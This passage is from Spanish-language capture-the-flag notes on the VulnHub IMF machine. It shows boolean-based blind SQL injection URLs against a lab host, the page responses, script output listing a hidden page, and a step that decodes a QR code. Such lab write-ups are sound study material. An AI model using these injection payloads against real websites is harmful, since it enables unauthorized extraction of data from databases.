 Explicación: al concatenar una [SQLi](../../Bases de datos db/SQLi) vemos que ahora la página cambia y muestra otro mensaje. Esta interacción con la página nos puede hacer extraer datos de la base de datos [SQL](../../Bases de datos db/SQL) que hay por detrás


Acción:

```url
http://192.168.1.67/imfadministrator/cms.php?pagename=home' or substring(database(),1,1)='a 
```

Resultado:

```bash
 Under Construction. 
```

Acción:

```url
http://192.168.1.67/imfadministrator/cms.php?pagename=home' or substring(database(),1,1)='b
```

Resultado:

```bash
 Welcome to the IMF Administration. 
```

Explicación: vemos que podemos dumpear información de la base de datos, por ejemplo tiene pinta de que exista una base de datos cuyo nombre empieza por 'a' quizás de 'admin'. Vemos que la página si es un valor Booleano falso muestra 'Welcome...' y si es true muestra 'Under...' con esto podemos hacer un [[iCloudDrive/iCloud~md~obsidian/Git/Setting_Github/Documento Hacker/Machines/VulnHub/IMF/Script|Script) en python que nos permita extraer la información de la base de datos. Para ello necesitaremos arrastrar la cookie de sesión que vimos anteriormente con Burpsuite

---

Finalmente obtenemos la siguiente información:

```bash
[+] SQLI: Ataque de SQLI finaliado exitosamente
[+] Data: disavowlist,home,tutorials-incomplete,upload
```

Tenemos las diferentes rutas/pestañas que veíamos en la página web, pero además vemos una más `tutorials-incomplete`

![Captura](./Imágenes/iCloudDrive/iCloud~md~obsidian/Git/Setting_Github/Documento Hacker/Machines/VulnHub/IMF/Imágenes/web_6.png)

Vemos un endpoint oculto, y muestra un QR por lo que podemos probar a explotarlo

Acción: con la herramienta `flameshot` hacemos una captura de pantalla para recortar el código QR

```bash
sleep 2; flameshot gui
```


Tras recortar visitamos la esta web que ofrece un recurso online para decodear un código qr: https://zxing.org/w/decode.jspx
